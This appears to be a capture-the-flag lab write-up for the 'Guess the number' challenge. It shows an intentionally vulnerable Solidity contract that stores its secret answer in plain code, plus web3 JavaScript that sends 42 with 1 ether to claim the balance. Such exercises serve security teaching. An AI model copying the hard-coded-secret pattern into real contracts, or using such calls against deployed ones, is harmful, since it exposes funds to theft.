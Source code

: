 # 03. Guess the number

I’m thinking of a number. All you have to do is guess it.

## Target contract

```js
pragma solidity ^0.4.21;

contract GuessTheNumberChallenge {
    uint8 answer = 42;

    function GuessTheNumberChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);

        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

## Vulnerability

The answer is simply given at `uint8 answer = 42;` and is used at `if (n == answer)` so we just need to send `42` to the `guess` function.

```js
const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "guess",
    type: "function",
    inputs: [
      {
        type: "uint8",
        name: "n",
      },
    ],
  },
  [42]
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: contract,
  data: data,
  value: web3.utils.toWei("1", "ether"),
});
```